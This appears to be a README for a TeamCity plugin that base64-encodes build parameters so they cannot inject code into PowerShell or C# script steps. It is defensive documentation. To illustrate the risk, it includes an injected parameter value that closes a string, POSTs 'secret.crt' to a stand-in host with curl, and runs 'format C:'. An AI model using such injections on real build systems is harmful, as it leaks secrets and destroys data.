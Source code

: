 ## What?
TeamCity plugin to escape build parameters for safe embed into script steps.

## Why?
To prevent people from inserting malicious code into parameters when triggering a build.

**Example 1**: take the following PowerShell script:
```
Write-Host "%MESSAGE_OF_THE_DAY%!"
```
a bad actor with access to build customisation (but not to the build agents) could set `MESSAGE_OF_THE_DAY` to:
```
goodbye >:)"
&curl -d "@secret.crt" -X POST https://badurl.com
&format C:
"
```
(a little contrived, but you get the point!)

Beyond this, an escaped parameter provides a safety net so you don't need to worry about the contents of the original string.
**Example 2**: consider this C# snippet:
```
int seconds = ElapsedTime.TotalSeconds;
Console.WriteLine($"Completed task: %MY_TASK_NAME% in {seconds}s");
```
What if `MY_TASK_NAME` is `MegaTexture{Landscape.tga}`? The script won't even compile.

## How?
![secret_ingredient_is_base64](/images/how.png)

Rather than inserting configuration parameters directly into code, the plugin provides a short snippet in the relevant langauge that decodes a base64 representation of the variable. This way, there's no risk of customised parameters being used as a vector for code injection.

Going back to **example 1** above, instead of writing this vulnerable script in the PowerShell runner:
```
Write-Host "%MESSAGE_OF_THE_DAY%!"
```
we'd use:
```
$escaped = %ESCAPED_POWERSHELL_MESSAGE_OF_THE_DAY%
Write-Host "$escaped!"
```
which the plugin expands to:
```
$escaped = ([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String("bXlfY29vbF92YWx1ZQ==")))
Write-Host "$escaped!"
```
And for the C# in **example 2**, this code:
```
int seconds = ElapsedTime.TotalSeconds;
Console.WriteLine($"Completed task: %MY_TASK_NAME% in {seconds}s");
```
becomes:
```
int seconds = ElapsedTime.TotalSeconds;
string escaped = %ESCAPED_CSHARP_MY_TASK_NAME%
Console.WriteLine($"Completed task: {escaped} in {seconds}s");
```
which the plugin expands to:
```
int seconds = ElapsedTime.TotalSeconds;
string escaped = Encoding.UTF8.GetString(Convert.FromBase64String("TWVnYVRleHR1cmV7TGFuZHNjYXBlLnRnYX0="));
Console.WriteLine($"Completed task: {escaped} in {seconds}s");
```